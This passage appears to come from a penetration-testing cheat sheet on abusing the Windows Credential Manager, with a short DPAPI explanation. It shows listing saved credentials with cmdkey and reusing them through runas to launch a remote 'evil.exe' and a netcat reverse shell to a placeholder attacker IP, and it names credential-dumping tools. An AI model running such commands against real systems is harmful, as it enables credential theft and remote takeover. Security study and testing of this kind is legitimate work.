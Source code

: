 ### Credentials manager / Windows vault

From [https://www.neowin.net/news/windows-7-exploring-credential-manager-and-windows-vault](https://www.neowin.net/news/windows-7-exploring-credential-manager-and-windows-vault)\
The Windows Vault stores user credentials for servers, websites and other programs that **Windows** can **log in the users automaticall**y. At first instance, this might look like now users can store their Facebook credentials, Twitter credentials, Gmail credentials etc., so that they automatically log in via browsers. But it is not so.

Windows Vault stores credentials that Windows can log in the users automatically, which means that any **Windows application that needs credentials to access a resource** (server or a website) **can make use of this Credential Manager** & Windows Vault and use the credentials supplied instead of users entering the username and password all the time.

Unless the applications interact with Credential Manager, I don't think it is possible for them to use the credentials for a given resource. So, if your application wants to make use of the vault, it should somehow **communicate with the credential manager and request the credentials for that resource** from the default storage vault.

Use the `cmdkey` to list the stored credentials on the machine.

```
cmdkey /list
Currently stored credentials:
 Target: Domain:interactive=WORKGROUP\Administrator
 Type: Domain Password
 User: WORKGROUP\Administrator
```

Then you can use `runas` with the `/savecred` options in order to use the saved credentials. The following example is calling a remote binary via an SMB share.

```bash
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
```

Using `runas` with a provided set of credential.

```bash
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
```

Note that mimikatz, lazagne, [credentialfileview](https://www.nirsoft.net/utils/credentials\_file\_view.html), [VaultPasswordView](https://www.nirsoft.net/utils/vault\_password\_view.html), or from [Empire Powershells module](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/credentials/dumpCredStore.ps1).

### DPAPI

In theory, the Data Protection API can enable symmetric encryption of any kind of data; in practice, its primary use in the Windows operating system is to perform symmetric encryption of asymmetric private keys, using a user or system secret as a significant contribution of entropy.

**DPAPI allows developers to encrypt keys using a symmetric key derived from the user's logon secrets**, or in the case of system encryption, using the system's domain authentication secrets.
